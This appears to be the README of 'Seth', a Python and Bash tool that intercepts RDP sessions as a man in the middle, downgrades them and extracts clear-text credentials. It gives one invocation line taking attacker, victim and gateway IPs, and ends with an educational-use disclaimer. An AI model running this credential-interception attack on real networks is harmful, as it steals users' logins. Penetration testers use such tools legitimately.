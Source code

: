 Seth
====

Seth is a tool written in Python and Bash to MitM RDP connections. It
attempts to downgrade the connection and extract clear text credential.

Usage
-----

Run it like this:

    $ ./seth.sh <INTERFACE> <ATTACKER IP> <VICTIM IP> <GATEWAY IP>

For more information, run `./rdp-cred-sniffer.py -h` and read the code.

Disclaimer
----------

Use at your own risk. Do not use without full consent of everyone involved.
For educational purposes only.
